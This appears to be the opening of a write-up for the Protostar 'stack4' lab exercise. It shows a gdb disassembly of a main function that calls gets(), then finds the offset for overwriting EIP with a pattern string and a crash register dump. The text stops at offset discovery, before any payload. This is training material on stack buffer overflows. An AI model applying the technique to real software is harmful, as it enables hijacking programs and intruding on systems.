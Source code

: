 When disassembly main function, we have:

```
➜  gdb -q stack4
Reading symbols from stack4...done.
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048408 <+0>:     push   ebp
   0x08048409 <+1>:     mov    ebp,esp
   0x0804840b <+3>:     and    esp,0xfffffff0
   0x0804840e <+6>:     sub    esp,0x50
   0x08048411 <+9>:     lea    eax,[esp+0x10]
   0x08048415 <+13>:    mov    DWORD PTR [esp],eax
   0x08048418 <+16>:    call   0x804830c <gets@plt>
   0x0804841d <+21>:    leave
   0x0804841e <+22>:    ret
End of assembler dump.
gdb-peda$
```

After `leave` instructor in `*main+21`, the program will call the function which has address equal to `EIP register`'s value. The easiest way to pass this level is overwrite EIP. 

First of all, we need `EIP` 's offset. Try inject `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1234567`

```
➜  gdb stack4
Reading symbols from stack4...done.
gdb-peda$ r
Starting program: /root/protostar/bin/stack4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1234567

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffda90 ('A' <repeats 74 times>, "1234567")
EBX: 0x0
ECX: 0xf7fca5a0 --> 0xfbad2288
EDX: 0xf7fcb87c --> 0x0
ESI: 0x1
EDI: 0xf7fca000 --> 0x1b5db0
EBP: 0x32314141 ('AA12')
ESP: 0xffffdae0 --> 0x37 ('7')
EIP: 0x36353433 ('3456')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x36353433
[------------------------------------stack-------------------------------------]
0000| 0xffffdae0 --> 0x37 ('7')
0004| 0xffffdae4 --> 0xffffdb74 --> 0xffffdca3 ("/root/protostar/bin/stack4")
0008| 0xffffdae8 --> 0xffffdb7c --> 0xffffdcbe ("USER=root")
0012| 0xffffdaec --> 0x0
0016| 0xffffdaf0 --> 0x0
0020| 0xffffdaf4 --> 0x0
0024| 0xffffdaf8 --> 0xf7fca000 --> 0x1b5db0
0028| 0xffffdafc --> 0x8048218 --> 0x675f5f00 ('')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x36353433 in ?? ()
```
